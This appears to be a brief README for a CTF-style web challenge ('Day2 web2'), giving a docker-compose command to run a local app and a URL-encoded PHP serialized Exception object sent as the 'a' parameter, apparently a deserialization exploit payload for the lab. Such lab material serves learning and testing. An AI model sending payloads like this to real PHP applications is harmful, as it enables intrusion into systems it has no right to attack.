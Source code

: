 # Day2 web2

Use

```
docker-compose up -d
```
Access localhost:8081

payload
```
http://127.0.0.1:8081/?a=O%3A9%3A%22Exception%22%3A4%3A%7Bs%3A7%3A%22%00%2A%00code%22%3Bi%3A1%3Bs%3A7%3A%22%00%2A%00line%22%3Bi%3A1%3Bs%3A1%3A%22c%22%3BN%3Bs%3A1%3A%22b%22%3BR%3A4%3B%7D
```
